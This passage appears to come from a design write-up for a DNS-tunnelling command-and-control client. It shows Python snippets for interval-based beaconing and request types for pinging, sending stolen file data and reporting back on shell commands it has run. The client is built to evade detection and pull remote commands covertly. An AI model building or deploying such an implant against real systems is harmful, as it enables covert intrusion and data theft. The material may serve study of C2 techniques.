 2. **Server Pinging**

   * The server cannot initiate a connection with the client because the communication between the client and server should look as legitimate as possible. 

   * Instead, the client will periodically **ping** the server (send it a DNS request) over a configurable interval.

   * To implement this behavior, we can use the **twisted** library to call a function over an interval. 

     * An example is shown below in `client.py` which will be the entry point for our client program.

     ```python
     #--- client/client.py ---#
     
     # library imports
     from twisted.internet import reactor, task
     
     # internal imports
     from constants import PING_INTERVAL
     from request import Request
     from command import Command
     from request_type import RequestType
     
     def schedule_ping():
         """ Sends a ping request to the server in an interval. """
         def ping():
             request = Request(RequestType.PING)
             request.send()
     
         ping_task = task.LoopingCall(ping)
         ping_task.start(PING_INTERVAL)
     
         reactor.run()
     ```

3. **Command Execution & Data Transmission**

   * The client can send three types of DNS requests to the server, **PING**, **DATA**, and **RECEIPT**.

     ```python
     from enum import Enum
     
     class RequestType(Enum):
         """ Enum that represents the type of request that is sent. """
     
         PING = 0, # sent periodically to check if the server has a command
         DATA = 1, # sent when a file retrieval command is issued for transmission of data
         RECEIPT = 2 # a receipt of the success (or failure) of the execution of a shell command
     ```

   * The client would first send a **PING** request to the server for a response. If the response contains a command, the client executes it and sends the result of that execution back to the server.
